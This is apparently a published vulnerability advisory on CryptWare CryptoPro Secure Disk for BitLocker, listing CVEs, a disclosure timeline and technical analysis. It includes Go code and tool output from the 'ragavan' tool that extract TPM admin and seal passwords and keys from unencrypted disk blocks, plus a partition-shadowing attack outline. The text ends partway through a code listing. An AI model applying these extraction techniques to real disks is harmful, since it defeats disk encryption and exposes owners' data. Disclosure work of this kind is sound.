






# CryptWare CryptoPro Secure Disk for BitLocker: Multiple Vulnerabilities


## Vendors

- CryptWare IT Security GmbH (CryptWare)

## Affected Versions

CryptWare CryptoPro solutions prior to v7.7.4 - released February 2026.
## Summary

The CryptoPro Secure Disk for BitLocker (CryptoPro) software contains several logic flaws that would enabled a physical attacker to bypass TPM protections, recovery secrets from the system hard disk, and obtain code execution in the context of `root` - from an embedded Linux environment. From this vantage point, the attacker would be able to recover the Microsoft BitLocker recovery password and decrypt the primary Windows system partition. The following is a high-level list of these issues:

- Ineffective `EDA Partition` Verification
- Insecure Storage of TPM2.0 Secrets
- Insufficient PCR Measurements
- `Bootxsa.efi` - Insufficient LUKS Encryption Validation
- `initramfs` - Insufficient Validation of LUKS Encryption
- `initramfs` - Insufficient Error Return for Decryption Failures
- `DataStore` - Insufficient Integrity Validation
- `initramfs` - Insecure Secret Storage
- Permissive IMA Security Policy

## Remediation/Mitigation

Customers should follow vendor instructions to upgrade to v7.7.4 or apply appropriate patches as instructed by CryptWare.

## Credit

These issues were found by Matt Burch (@emptynebuli) of Atredis Parterners.

## References

Public security advisories were not provided by CryptWare but these security issues were presented at Black Hat USA 2026 and DEF CON 34. Please see the following reference materials:

**Black Hat USA 2026**
- Slides: https://i.blackhat.com/BH-USA-26/Presentations/US-26-Burch-The-Cost-of-Obscurity-Wednesday.pdf
- White-Paper: https://i.blackhat.com/BH-USA-26/Presentations/US-26-Burch-The-Cost-of-Obscurity-wp.pdf

**DEF CON 34**
- Slides: https://media.defcon.org/DEF%20CON%2034/DEF%20CON%2034%20presentations/DEF%20CON%2034%20presentations/emptynebuli%20-%20Compounding%20Interest%20Exploiting%20the%20ATM%20Supply%20Chain%20-%20Burch%20%282%29.pdf
- White-Paper: https://media.defcon.org/DEF%20CON%2034/DEF%20CON%2034%20presentations/DEF%20CON%2034%20presentations/emptynebuli%20-%20Compounding%20Interest%20Exploiting%20the%20ATM%20Supply%20Chain%20-%20Burch.pdf

**Custom Tooling**
- Ragavan: https://github.com/atredispartners/ragavan

**Demo Videos**
- SHA256 Attack: https://github.com/emptynebuli/SpeakingEvents/blob/main/Exploiting%20the%20ATM%20Supply%20Chain/demos/demo-sha256.mp4
- LUKS Attack: https://github.com/emptynebuli/SpeakingEvents/blob/main/Exploiting%20the%20ATM%20Supply%20Chain/demos/demo-luks.mp4
- STACK Attack: https://github.com/emptynebuli/SpeakingEvents/blob/main/Exploiting%20the%20ATM%20Supply%20Chain/demos/demo-stack.mp4
- LiveOS Attack: https://github.com/emptynebuli/SpeakingEvents/blob/main/Exploiting%20the%20ATM%20Supply%20Chain/demos/demo-live.mp4
## Report Timeline

* 2025-07-30: Atredis Partners sent an initial notification to vendor, including a draft advisory
* 2025-07-30: Vendor confirms receipt of the advisory
* 2025-08-05: Vendor requested tooling source materials.
* 2025-08-05: Atredis Partners sent source materials.
* 2025-08-05: Vendor received tooling source.
* 2025-08-13: Vendor review/acceptance of findings.
* 2025-10-27: Atredis Partners requested patch update details.
* 2025-11-11: CryptWare Released v7.7.2 to address all CVEs, except TPM 2.0 Secrets finding.
* 2025-12-02: CryptWare Released v7.7.3.
* 2026-02-12: CryptWare Release v7.7.4.
* 2026-03-27: CryptWare provided v7.7.4 for remediation validation.
* 2026-04-27: Atredis Partners completed remediation validation for CryptWare v7.7.4.
* 2026-08-05: Content presented at Black Hat USA.
* 2026-08-08: Content presented at DEF CON 34.
* 2026-09-09: Atredis Partners publishes advisory ATREDIS-2026-0009

## Technical Details

### Ineffective `EDA Partition` Verification (CVE-2025-59319)

The initramfs executable `crypt_config` and Linux executables `ss_gui` and `ss_nogui` were identified to scan the system GUID Partition Table (GPT) and identify the Linux partition (`EDA Partition`) based on the first match of a static and proprietary `Type-UUID` value.


**`crypt_config` `get_eda_partition_params` Part UUID Scan**


The `crypt_config` function `ss_util_hw_get_eda_partition_data` was responsible for the debug logging events associated with searching the GPT for this `Type-UUID`:


**`crypt_config` `get_util_hw_get_eda_partition_data` Debug Logger**

This debug log event highlights the identification of the EDA Partition from walking the GPT: 
```
13.01.2026 15:08:50.168 DBG (967) get_eda_partition_params: A0EDA0ED-85A1-B94E-B92D-CF6DCCD3DDCA - 28732ac1-1ff8-d211-ba4b-00a0c93ec93b
13.01.2026 15:08:50.168 DBG (967) get_eda_partition_params: A0EDA0ED-85A1-B94E-B92D-CF6DCCD3DDCA - 16e3c9e3-5c0b-b84d-817d-f92df00215ae
13.01.2026 15:08:50.168 DBG (967) get_eda_partition_params: A0EDA0ED-85A1-B94E-B92D-CF6DCCD3DDCA - a2a0d0eb-e5b9-3344-87c0-68b6b72699c7
13.01.2026 15:08:50.168 DBG (967) get_eda_partition_params: A0EDA0ED-85A1-B94E-B92D-CF6DCCD3DDCA - a4bb94de-d106-404d-a16a-bfd50179d6ac
13.01.2026 15:08:50.168 DBG (967) get_eda_partition_params: A0EDA0ED-85A1-B94E-B92D-CF6DCCD3DDCA - a0eda0ed-85a1-b94e-b92d-cf6dccd3ddca
13.01.2026 15:08:50.169 DBG (967) get_eda_partition_params: found partition with GUID A0EDA0ED-85A1-B94E-B92D-CF6DCCD3DDCA
13.01.2026 15:08:50.169 DBG (967) ss_util_hw_get_partition_data:
        part->disk_number      = 0
        part->disk_id          = 0x00000000
        part->partition_number = 5
        part->start_sector     = 3bf6000
        part->num_sectors      = 300000
        part->bytes_per_sector = 512
```
**`crypt_config` Debug Log Details**

Location of the EDA Partition is critical to the operational pipeline of CryptoPro, as there are a number of hidden data blocks and a layout table that that are consulted during the system's initialization sequence. These data blocks are responsible for the storage of CryptoPro secrets, the TPM policy, cryptographic details, and system configuration settings which are required to complete the system boot sequence. Based on the CryptoPro application logic, the GPT table is consulted in FIFO order and the first partition index containing the proprietary `Type-UUID` value is selected as the primary EDA Paritition to boot the disk. Aside from the partition to carry to intended `Type-UUID` value, no other validation checks were performed against the partition - aside from a proprietary PreBoot Authorization (PBA) process that would evaluate select Linux files against a hash index table. As detailed in **`Bootxsa.efi` - Insufficient LUKS Encryption Validation** and **`initramfs` - Insufficient Validation of LUKS Encryption** This process was bypassed if the partition was identified to be encrypted.

An attacker with physical access to the system disk can insert a new Linux partition and rewrite the GPT to position this partition before the intended EDA Partition. As a result of the FIFO scanning order, this new partition would be executed as Linux environment. In order to leverage this attack surface for code execution an attacker would need to perform several additional bypasses to compromise the system. 

- Disable the Linux IMA Policy or build the Linux environment with a trusted IMA signing key.
- Modify the Linux partition header to have a LUKS defintion to bypass PBA validation checks.
- Build a new DataStore and inject into the appropriate partition offset to default CryptoPro configuration settings.

Details regarding how to properly exploit this attack path are detailed in referenced white-paper links, located in the references section of this advisory. For further details on how to construct a new Linux root file system, see the **GPT Partition Shadow Attack** in the white-paper document. Additionally, a full demonstration of system compromise leveraging this attack surface is under the **STACK Attack** link in this advisory.
### Insecure Storage of TPM2.0 Secrets (CVE-2025-59320)

The PCR mask, representing which TPM PCR values should be measured, was contained in the last 32-bytes of the hidden data block `TPM Data Block`. For further details regarding the hidden data blocks, see the white-paper linked under the references section:
```
# hexdump -C -s 33533362144 cpro-disk.raw | head
7cebe7fe0  d2 00 20 11 0f 00 00 00  00 00 00 00 00 00 00 00  |.. .............|
7cebe7ff0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```
**EDA Disk PCR Mask**

The magic bytes `0x112000d2` was used to locate and identify this block as the PCR mask. The following structure was used to describe this block:
```
+---------+-------------------------+--------------------------+
| Offset  | Bytes                   | Description              |
+---------+-------------------------+--------------------------+
| 00-03   | d2 00 20 11             | Magic                    |
+---------+-------------------------+--------------------------+
| 04-07   | 0f 00 00 00             | Base PCR Mask            |
+---------+-------------------------+--------------------------+
| 08-09   | 00 00                   | ??                       |
+---------+-------------------------+--------------------------+
| 10      | 00                      | TPM Reset Counter        |
+---------+-------------------------+--------------------------+
| 11-14   | 00 00 00 00             | Additional PCR Mask      |
+---------+-------------------------+--------------------------+
```
**CryptoPro PCR Mask Layout**

The PCR mask was determined by the `dword` at `offset+4` and `offset+11`, the following formula was used to build this mask value:
```
<offset+11> | 1<<(<offset+4>&0x1f)
```
**PCR Policy Mask Formula**

This formula produced a 4-byte mask value that was used to break out the active PCR list:
```
byte(mask & 0xFF),         // Byte 0: PCR 0–7
byte((mask >> 8) & 0xFF),  // Byte 1: PCR 8–15
byte((mask >> 16) & 0xFF), // Byte 2: PCR 16–23
```
**PCR Register Selection from Mask**

The hidden data block `TPM RBytes` is then used to recover the `admin` and `seal` credentials for the TPM policy. This data block was not encrypted and the credentials were recovered from static offsets within this block, the following `ragavan` GoLang logic was used to recover this value:

```go
func (tpm *TPMDataBlock) GetCreds(blob []byte) error {
	if !bytes.Equal(blob[:4], []byte(randHeader)) {
		return fmt.Errorf("wrong magic bytes: 0x%x want 0x%x", blob[:4], []byte(randHeader))
	}
	size := len(blob)
	randoKeyIndex := []int{
		0x1000, 0x1010, 0x1020, 0x1030,
		0x1040, 0x1050, 0x1060, 0x1070,
	}

	var seed []byte
	var key []byte

	for _, val := range randoKeyIndex {
		seed = append(seed, blob[val:val+16]...)
	}

	for i := 0; i < 128; i += 4 {
		skey := binary.LittleEndian.Uint32(seed[i : i+4])
		o1 := skey % uint32(size)
		o2 := blob[o1*0x1]
		key = append(key, byte(o2))
	}

	if len(key) > 0 {
		tpm.creds = cred{
			data:  key,
			full:  getTPMSecret(key),
			admin: getTPMPWD(key),
			seal:  getTPMSealPWD(key),
		}
		return nil
	}
	return fmt.Errorf("failed to recover TPM creds")
}
```
**`ragavan` `GetCreds` Function for TPM Credential Extraction**

This produced a 32-byte value that was then Base64 encoded and split on the 16-character offset. The first block represented `admin` credentials and the second was the `seal` credential.

The TPM public cert, private key, and handle were stored in the hidden block `TPM Resv Data Block`. This block was also not encrypted but serialized through several rounds `PALIGNR`. The `PALIGNR` routine was an x86 SSSE3 instruction that concatenates two 16-byte blocks together. The following layout represents this block:

```
+---------+-------------------------+--------------------------+
| Offset  | Bytes                   | Description              |
+---------+-------------------------+--------------------------+
| 00-07   | 00 00 00 00 d1 00 20 11 | Magic                    |
+---------+-------------------------+--------------------------+
| 08-11   | 2c 21 00 00             | Size (SZ)                |
+---------+-------------------------+--------------------------+
| 12-15   | 02 00 20 11             | Magic - TPM Sealed       |
+---------+-------------------------+--------------------------+
| 16-19   | 00 20 00 00             | TPM Sealed Size (TPM SZ) |
+---------+-------------------------+--------------------------+
| 20-27   | 4A 0A 5D 73 2A E9 CC B2 | Preemble                 |
+---------+-------------------------+--------------------------+
| 28-8503 | XX XX                   | PALIGNR Serial Block     |
+---------+-------------------------+--------------------------+
```
**`TPM Resv Data Block` Shuffled Layout**

Unserializing the `PALIGNR` data block resulted in the following general layout:

```
+---------+-------------------------+--------------------------+
| Offset  | Bytes                   | Description              |
+---------+-------------------------+--------------------------+
| 00-03   | 02 00 20 11             | Magic                    |
+---------+-------------------------+--------------------------+
| 04-07   | 00 20 00 00             | TPM Sealed Size (TPM SZ) |
+---------+-------------------------+--------------------------+
| 08-15   | 4A 0A 5D 73 2A E9 CC B2 | Preamble                 |
+---------+-------------------------+--------------------------+
| 16-     | XX XX                   | PALIGNR TPM ENC Block    |
| TPM SZ  |                         | End @ TPM SZ             |
+---------+-------------------------+--------------------------+
| 8192-   | 8D F4 4E 5F 46 63 64 A1 | Preemble                 |
| 8199    |                         |                          |
+---------+-------------------------+--------------------------+
| 8200-   | 50 43 00 81             | TPM Handle               |
| 8203    |                         |                          |
+---------+-------------------------+--------------------------+
| 8204-   | 00 00 00 00             | Padding                  |
| 8207    |                         |                          |
+---------+-------------------------+--------------------------+
| 8208-   | 50 00 00 00             | Pub Cert Size (PUB SZ)   |
| 8211    |                         |                          |
+---------+-------------------------+--------------------------+
| 8212-   | XX XX                   | PALIGNR Pub Cert         |
| PUB SZ  |                         | End @ PUB SZ             |
+---------+-------------------------+--------------------------+
| 8292-   | 00 00 00 00             | Padding                  |
| 8295    |                         |                          |
+---------+-------------------------+--------------------------+
| 8296-   | C0 00 00 00             | Pri Key Size (PRI SZ)    |
| 8299    |                         |                          |
+---------+-------------------------+--------------------------+
| 8300-   | 00 BE 00 20 59 29 39 1C | Preamble                 |
| 8315    | 80 ED 6D 01 1B 43 BE 38 |                          |
+---------+-------------------------+--------------------------+
| 8316-   | XX XX                   | PALIGNR Pri Key          |
| PRI SZ  |                         | End @ PRI SZ             |
+---------+-------------------------+--------------------------+
| 8528-   | 4A 24 6B FD D9 2B 6E 33 | Epilogue                 |
| 8543    | F2 24 F1 98 F1 E1 94 07 |                          |
+---------+-------------------------+--------------------------+
```
**`TPM Resv Data Block` Unshuffled Layout**

In this block, the `TPM Handle` was the HEX offset of where the `DataStore` encyrption key was stored within the TPM. This value was stored as plaintext and located at the following layout offset: `TPM SZ + 0x8`. The following excerpt was from `ragavan`’s incremental debug output during unserialization of `TPM Resv Data Block`:

```
# ragavan GetTPMData -ddd /dev/sda
...
[*] [tpm] [getBlock] TPM EncryptedBlock MagicBytes: 0x02002011 Size: 8192
[DEBUG] [tpm] [TPM EncryptedBlock Shuffle] Blob Length 8544:
...
  00001FC0  ...
  00002000  18 84 70 2D BF FA B0 77  50 43 00 81 00 00 00 00  |..p-...wPC......|
  ...
```
**`ragavan` Incremental Debug Dump from Unshuffled `TPM Resv Data Block` - TPM Handle**

The private and public key pairs, used to establish and authenticated TPM session were stored as `PALIGNR` serialized values. The following `ragavan` incremental debug output represents the extraction of both the public certificate and private key from the serialized blob:

```
# ragavan GetTPMData -dd /dev/sda
...
[*] [tpm] [getPubKey] TPM PubKey unshuffle size: 80
[DEBUG] [tpm] [TPM PubKey Unshuffle] Blob Length 80:
  00000000  00 4E 00 08 00 0B 00 00  04 52 00 20 6B D6 87 45  |.N.......R. k..E|
  00000010  70 D6 73 39 21 AA D9 60  D2 F2 88 9D 2E 76 61 89  |p.s9!..`.....va.|
  00000020  B4 8E BE 97 7B 79 99 E2  BB CB 54 02 00 10 00 20  |....{y....T.... |
  00000030  E0 9D 69 EB 1D 26 03 DD  66 8F CE 9F 9C FE 3A B7  |..i..&..f.....:.|
```
**`ragavan` Data Dump of Unshuffled Public Certificate**

```
# ragavan GetTPMData -dd /dev/sda
...
[*] [tpm] [getPriKey] TPM PriKey unshuffle size: 190
[DEBUG] [tpm] [TPM PriKey Unshuffle] Blob Length 192:
  00000000  00 BE 00 20 0D 39 31 FD  0D 22 F4 40 02 70 DB 17  |... .91..".@.p..|
  00000010  C5 15 E6 DE 37 DF 0C 95  AC EA 5D 6E A9 F1 22 73  |....7.....]n.."s|
  00000020  86 C3 43 74 00 10 03 72  71 7D 51 B7 EE 9D EC 65  |..Ct...rq}Q....e|
  00000030  9A 70 CB 5A 6D 2B A8 28  30 CF 2C 88 46 A1 C1 9D  |.p.Zm+.(0.,.F...|
```
**`ragavan` Data Dump of Unshuffled Private Key**

The TPM key pairs were stored in `TPM2B` format. Export details of the public certificate can be see using `tpm2_print` from the `tpme-tools` command: 
```shell
# tpm2_print -t TPM2B_PUBLIC tpm.pub
name-alg:
  value: sha256
  raw: 0xb
attributes:
  value: fixedtpm|fixedparent|userwithauth|noda
  raw: 0x452
type:
  value: keyedhash
  raw: 0x8
algorithm: 
  value: null
  raw: 0x10
keyedhash: 831c1aa6a0dcb0e2b7212a90c41d3f1a23a724f50de79a9d83cf764f9ff9b3ec
authorization policy: 6bd6874570d6733921aad960d2f2889d2e766189b48ebe977b7999e2bbcb5402
```
**`tpm2_print` Public Certificate Details**

Wrapping this all together, CryptoPro’s TPM secrets can be extracted from `TPM Resv Data Block` with `ragavan` using the `GetTPMData` task. For further details regarding `ragavan` see the white-paper and tooling links from the references section:

```
# ragavan GetTPMData /dev/sda
[+] [edaDisk] [GetEDAPart] NIX Partition Located 
	 PartNo: 4 StartSector: 62873600 EndSector: 66019327 SectorCount: 3145728
[+] [edaDisk] [getLayoutTable] Magic Byte Header Located @ 66019311
[+] [attack] [pullTPMData] successful TPM data block recovery
[*] [attack] [pullTPMData] TPM data block is locked
[*] [tpm] [getPCR] TPM PCR MagicBytes: 0xd2002011 offset: 16352
[*] [tpm] [Unshuffle] TPM Reserv Data Block MagicBytes: 0x00000000d1002011 Size: 8492
[*] [tpm] [Unshuffle] TPM Reserv Data Block Unshuffle size: 8544
[*] [tpm] [getBlock] TPM EncryptedBlock MagicBytes: 0x02002011 Size: 8192
[*] [tpm] [getBlock] TPM EncryptedBlock unshuffled size: 8192
[*] [tpm] [getPubKey] TPM PubKey MagicBytes: 0x00000000 Size: 80 Index: 8192
[*] [tpm] [getPubKey] TPM PubKey unshuffle size: 80
[*] [tpm] [getPriKey] TPM PriKey MagicBytes: 0x00000000 Size: 192 Index: 8292
[*] [tpm] [getPriKey] TPM PriKey unshuffle size: 190
[+] [attack] [pullTPMData] successful validation of random bytes
[+] [attack] [DumpTPMBlocks] TPM PCR list: 15
[+] [attack] [DumpTPMBlocks] TPM Handle: 0x81004350
[+] [attack] [DumpTPMBlocks] TPM RST counter: 0
[+] [attack] [DumpTPMBlocks] TPM admin passwd: 7H3f2w82zD78vKgl
[+] [attack] [DumpTPMBlocks] TPM seal passwd: tU7uutttIC61l6o
[+] [attack] [DumpTPMBlocks] TPM PUB Cert: AE4ACAALAAAEUgAga9aHRXDWczkhqtlg0vKInS52YYm0jr6Xe3mZ4rvLVAIAEAAg4J1p6x0mA91mj86fnP46t0bX1Q1u39T8Q/s1srYExt4=
[+] [attack] [DumpTPMBlocks] TPM KEY Cert: AL4AIA05Mf0NIvRAAnDbF8UV5t433wyVrOpdbqnxInOGw0N0ABADcnF9UbfunexlmnDLWm0rqCgwzyyIRqHBnS5ZfMx6n9Nya5G2j7XC4sDy4OBhdA2R7qRZqBEc+He7c+xXZAU5ZLVrAjhldbzla9USHrHdoXO7Mt6L+KM10G2E/W4/12AP49BSLLjzx1Bb2F5FvhFAzy1Y3OND6/8uUroABmZ6EUBzNvG+An2Zw9je6m63mNZNc0obnGcsesl8
```
**`ragavan` TPM Secret Recovery**  

Exploitation of this attack surface through an alternatively booted Debian live disk image is referenced under the **LiveOS Attack** from the reference section of this advisory.
### Insufficient PCR Measurements (CVE-2025-59321)

The PCR mask, representing the TPM PCR values attributed to the TPM policy, were contained in the last 32-bytes of the hidden data block `TPM Data Block`. For further details regarding the hidden data blocks, see the white-paper linked under the references section:
```
# hexdump -C -s 33533362144 cpro-disk.raw | head
7cebe7fe0  d2 00 20 11 0f 00 00 00  00 00 00 00 00 00 00 00  |.. .............|
7cebe7ff0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```
**EDA Disk PCR Mask**

The Magic bytes `0x112000d2` were used to locate and identify this block as the PCR mask. The following structure was used to describe this block:
```
+---------+-------------------------+--------------------------+
| Offset  | Bytes                   | Description              |
+---------+-------------------------+--------------------------+
| 00-03   | d2 00 20 11             | Magic                    |
+---------+-------------------------+--------------------------+
| 04-07   | 0f 00 00 00             | Base PCR Mask            |
+---------+-------------------------+--------------------------+
| 08-09   | 00 00                   | ??                       |
+---------+-------------------------+--------------------------+
| 10      | 00                      | TPM Reset Counter        |
+---------+-------------------------+--------------------------+
| 11-14   | 00 00 00 00             | Additional PCR Mask      |
+---------+-------------------------+--------------------------+
```
**CryptoPro PCR Mask Layout**

The PCR mask was determined by the `dword` at `offset+4` and `offset+11`, the following formula was used to build this mask value:
```
<offset+11> | 1<<(<offset+4>&0x1f)
```
**PCR Policy Mask Formula**

This formula produced a 4-byte mask value that was used to break out the active PCR list:
```
byte(mask & 0xFF),         // Byte 0: PCR 0–7
byte((mask >> 8) & 0xFF),  // Byte 1: PCR 8–15
byte((mask >> 16) & 0xFF), // Byte 2: PCR 16–23
```
**PCR Register Selection from Mask**

In the default configuration of CryptoPro only PCR-15 was measured for the TPM policy, as demonstrated in the following `ragavan` output:

```
# ragavan GetTPMData /dev/sda
[+] [edaDisk] [GetEDAPart] NIX Partition Located 
	 PartNo: 4 StartSector: 62873600 EndSector: 66019327 SectorCount: 3145728
...
[+] [attack] [DumpTPMBlocks] TPM PCR list: 15
```
**`ragavan` TPM PCR List Recovery**

11 EFI files were used to extend PCR-15 using a rolled SHA256 chained hash value where the SHA256 hash of one file would be `XOR`'d into the next. The following GoLang source from `ragavan` demonstrates this process:

```go
func SHA256RollEFI(base string) ([]byte, error) {
	fileList := []string{
		"/EFI/CPSD/AESModulDxe.efi",
		"/EFI/CPSD/EncFilterDxe.efi",
		"/EFI/CPSD/Bootxsa.efi",
		"/EFI/CPSD/bzImage.efi",
		"/EFI/CPSD/Shim.efi",
		"/EFI/CPSD/Log2Usb.efi",
		"/EFI/CPSD/DRIVERS/UTILS/FontRendererDxe.efi",
		"/EFI/CPSD/DRIVERS/UTILS/HighPrecisionTimerDxe.efi",
		"/EFI/CPSD/DRIVERS/UTILS/SmartCardReaderDxe.efi",
		"/EFI/CPSD/DRIVERS/FS/SdRamDiskDxe.efi",
		"/EFI/CPSD/DRIVERS/FS/Ext4Dxe.efi",
	}

	var rollSum [32]byte
	for i, file := range fileList {
		sum, err := SHA256sumFile(base + file)
		if err != nil {
			return nil, err
		}

		if i > 0 {
			for i := 0; i < len(sum); i++ {
				rollSum[i] = rollSum[i] ^ sum[i]
			}
		} else {
